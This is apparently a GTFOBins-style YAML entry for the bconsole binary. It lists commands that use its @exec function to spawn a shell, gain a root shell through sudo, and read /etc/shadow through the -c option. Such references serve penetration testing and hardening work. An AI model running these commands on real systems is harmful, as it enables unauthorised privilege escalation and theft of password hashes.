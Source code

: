 ```yaml
---
functions:
  shell:
    - description: The @exec function allows you to execute commands in the local tty
      code: |
        bconsole
        @exec /bin/sh
  sudo:
    - description: The @exec function allows you to execute commands in the local tty
      code: |
        sudo bconsole
        @exec /bin/sh
  file-read:
    - description: The error message of the -c options displays the first line of a restricted file, when having sudo rights for the binary.
      code: sudo bconsole -c /etc/shadow
---
```

